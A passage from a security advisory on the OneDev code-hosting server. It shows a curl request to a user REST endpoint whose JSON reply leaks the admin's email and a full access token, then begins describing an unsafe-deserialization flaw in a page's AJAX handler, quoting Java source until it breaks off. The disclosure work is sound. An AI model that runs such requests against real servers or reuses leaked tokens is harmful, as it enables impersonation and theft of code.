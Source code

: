 <p>But for the <code class="language-plaintext highlighter-rouge">/users/{}</code> endpoint we can list full user details, including their Access Tokens!</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>curl -X GET -H "Content-Type: application/json" http://localhost:6610/rest/users/1
{
  "id" : 1,
  "name" : "admin",
  "fullName" : "admin",
  "ssoInfo" : {
    "connector" : null,
    "subject" : "4a155bff-715d-45e9-8898-4152bb97d25e"
  },
  "email" : "alvaro@pwntester.com",
  "accessToken" : "JqnqWs6YsP8x3poNpnj6J6GFbvh0szli6lr5BWH8",
  "userProjectQueries" : [ ],
  "userIssueQueries" : [ ],
  "userIssueQueryWatches" : { },
  "issueQueryWatches" : { },
  "userPullRequestQueries" : [ ],
  "userPullRequestQueryWatches" : { },
  "pullRequestQueryWatches" : { },
  "userBuildQueries" : [ ],
  "userBuildQuerySubscriptions" : [ ],
  "buildQuerySubscriptions" : [ ]
}
</code></pre></div></div>

<p>These access tokens can be used to access the API or clone code in the build spec via the HTTP(S) protocol. It has permissions to all projects accessible by the user account.</p>

<h4 id="impact-4">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">Sensitive data leak</code> and leak the Access Token which can be used to impersonate the administrator or any other users.</p>

<h3 id="issue-6-post-auth-unsafe-deserialization-on-basepage-ajax">Issue 6: Post-Auth Unsafe Deserialization on BasePage (AJAX)</h3>
<p>The application’s <a href="https://github.com/theonedev/onedev/blob/main/server-core/src/main/java/io/onedev/server/web/page/base/BasePage.java"><code class="language-plaintext highlighter-rouge">BasePage</code></a> registers an AJAX event listener (<code class="language-plaintext highlighter-rouge">AbstractPostAjaxBehavior</code>) in all pages other than the login page. This listener decodes and deserializes the <code class="language-plaintext highlighter-rouge">data</code> query parameter.</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  <span class="nd">@Override</span>
  <span class="kd">protected</span> <span class="kt">void</span> <span class="nf">respond</span><span class="o">(</span><span class="nc">AjaxRequestTarget</span> <span class="n">target</span><span class="o">)</span> <span class="o">{</span>
    <span class="nc">IRequestParameters</span> <span class="n">params</span> <span class="o">=</span> <span class="nc">RequestCycle</span><span class="o">.</span><span class="na">get</span><span class="o">().</span><span class="na">getRequest</span><span class="o">().</span><span class="na">getPostParameters</span><span class="o">();</span>
    <span class="nc">String</span> <span class="n">encodedData</span> <span class="o">=</span> <span class="n">params</span><span class="o">.</span><span class="na">getParameterValue</span><span class="o">(</span><span class="s">"data"</span><span class="o">).</span><span class="na">toString</span><span class="o">();</span>
    